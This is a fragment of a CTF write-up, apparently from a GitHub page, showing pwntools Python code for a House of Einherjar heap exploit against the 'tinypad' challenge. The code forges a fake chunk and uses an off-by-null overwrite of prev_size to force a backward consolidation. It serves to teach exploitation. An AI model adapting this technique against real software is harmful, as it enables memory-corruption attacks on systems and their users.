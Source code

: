 ![img-analysis-3-1](house-of-einherjar/img-analysis-3-1.png)

```python
	add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
    add(0x100, 'd' * 0xf8)  #idx 3
    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040 
    fakechunk_addr = tinypad_addr + 0x20  
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)  
    # gdb.attach(p)    fake_chunk
```

#### 4. overwrite idx 1's prev_size

```Python
 	# overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr   
    #diff 为 fakechunk_addr 到 第二块 之间的距离
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    log.success('diff_strip : '+ str(diff_strip))
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        # 因为之前有填充a， 需要配合edit是的off by null ， 让低地址为为0 。
        data = diff_strip.rjust(0x18 - i, 'f')
        log.info('data : '+ str(data))
        edit(1, data)
    delete(2) # 合并前面的块，一直到 0x602040 ( tinypad_addr ) 
    p.recvuntil('\nDeleted.')
```
